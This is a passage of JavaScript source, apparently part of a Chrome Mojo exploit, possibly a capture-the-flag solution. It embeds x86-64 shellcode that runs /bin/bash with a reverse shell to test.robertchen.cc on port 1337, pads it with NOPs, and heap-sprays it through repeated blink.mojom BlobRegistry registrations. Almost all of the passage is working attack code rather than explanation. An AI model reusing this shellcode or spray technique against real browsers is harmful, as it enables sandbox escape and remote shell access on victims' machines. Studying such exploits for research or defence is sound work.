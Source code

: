 ```javascript
    //shellcode += "\x48\xc7\xc0\x01\x00\x00\x00\x48\xc7\xc7\x01\x00\x00\x00\x48\xbe\x00\x01\x00\x00\x10\x00\x00\x00\x48\xc7\xc2\x00\x01\x00\x00\x0f\x05";

    // execve("/bin/bash", ["-c", "/bin/bash -i >& /dev/tcp..."], 0)
    shellcode += "\x48\x31\xd2\x52\x48\x8d\x05\x31\x00\x00\x00\x50\x48\x8d\x05\x26\x00\x00\x00\x50\x48\x8d\x05\x14\x00\x00\x00\x50\x48\x89\xe6\x48\x8d\x3d\x09\x00\x00\x00\x48\xc7\xc0\x3b\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x00\x2d\x63\x00/bin/bash -i >& /dev/tcp/test.robertchen.cc/1337 0>&1\x00"

    shellcode += "\x90".repeat(8 - shellcode.length % 8);

    for(let i = 0; i < shellcode.length; i += 8) {
      let curr = 0n;
      for(let j = 0; j < 8; j++) {
        curr += 0x100n ** BigInt(j) * BigInt(shellcode.charCodeAt(i + j));
      } 
      spray[(0x200 + i)/8] = curr;
    }

    const payload = new BigUint64Array(0x1000000 / 8);
    for(let i = 0; i < payload.length; i+= spray.length) {
      payload.set(spray, i);
    }
    const embeddedData = new Uint8Array(payload.buffer);
  
    const blobData = [];
    for(let i = 0; i < 4; i++) {
      log("spraying " + i);
      const blobPtr = new blink.mojom.BlobPtr();
      const remote = new blink.mojom.BytesProviderPtr();
      function Impl() {}
      Impl.prototype = {
        requestAsReply: async (a, b) => {
          return {
            data: [1]
          }
        },
        requestAsStream: () => log("hi2"),
        requestAsFile: () => log("hi3")
      }
      const binding = new mojo.Binding(blink.mojom.BytesProvider, new Impl());
      binding.bind(mojo.makeRequest(remote));

      const dataElems = [];


      dataElems.push({
        $tag: blink.mojom.DataElement.Tags.bytes,
        bytes: {
          length: embeddedData.length,
          embeddedData: embeddedData,
          data: remote
        }
      }); 
      blobRegistry.register(mojo.makeRequest(blobPtr), "" + Math.random(), "text/data", "text/data", dataElems);

      noGC.push(blobPtr);
    }
  }


  await wait(100 * 1);
```